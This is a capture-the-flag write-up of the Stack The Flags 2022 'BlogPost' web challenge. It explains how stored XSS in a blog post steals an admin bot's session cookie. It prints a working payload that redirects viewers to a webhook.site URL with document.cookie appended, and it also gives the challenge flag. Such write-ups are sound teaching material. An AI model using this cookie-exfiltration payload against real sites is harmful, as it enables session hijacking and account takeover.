








# Stack The Flags 2022: BlogPost


## Description

> Jaga created an internal social media platform for the company, can you leak anyone's information?


## Attached Files

- [Source code](https://github.com/seanLimWeiRen/STF22_writeups/tree/main/Web/BlogPost/attached_files)

## Summary

We use XSS to steal the admin's session cookies

## Flag

```
STF22{s1mpl3_p0st_xSs_:)}
```

## Detailed Solution

Upon visiting the website and clicking the login button, we are greeted with a login page which gives us a link to register an account.



After registering an account and logging in with it, we can see that an admin has created a post, providing us with the information that there is an admin account and we might need to gain access to it.



### Finding the vulnerability

I tried to login to the admin account with SQL injection, but it did not work



Read more about SQL injection 

Luckily, one of the first things that I thought to test was XSS, so I used `<script>alert('xss')</script>` to test if it was vulnerable.



Indeed, the alert box popped up to show that the blog was vulnerable to XSS



#### How does XSS work? (for beginners)

XSS works by manipulating a website to return possibly malicious javascript code to its users, and it is run on the web browsers of the victim(s).
Using the example from earlier, the `<script>` and `</script>` tags are used to embed a client-side script, while `alert('xss')` simply gives us a popup with the text "xss"

### Exploiting the vulnerability

Remember when I mentioned that we could try to gain access to the admin account? That's exactly what we need to do with XSS.
Because your session data is stored in your cookies, we need to exfiltrate the session cookie.

For this, we can either use  or , both work perfectly fine but I prefer to use webhook.site

With the information I had, I created this payload:
```
<script>javascript:document.location='https://webhook.site/55b56003-41e1-481d-8865-4e5463f746d4?cookie='+document.cookie;</script>
```
Don't worry if you don't know what this means, I'll break it down.

#### How does this work?

When a user views the blog, they will be forcefully redirected to `https://webhook.site/55b56003-41e1-481d-8865-4e5463f746d4`, with their session cookie being sent along as a query string as well. The website then logs it and we can view it.

#### The fun part




Now, when we create the post and go to the webhook.site website, we can see that there are 2 GET requests 



One is from our browser, and the other is from the bot/admin
When we look at the query strings from the bot, we can get our flag.



```
STF22{s1mpl3_p0st_xSs_:)}
```


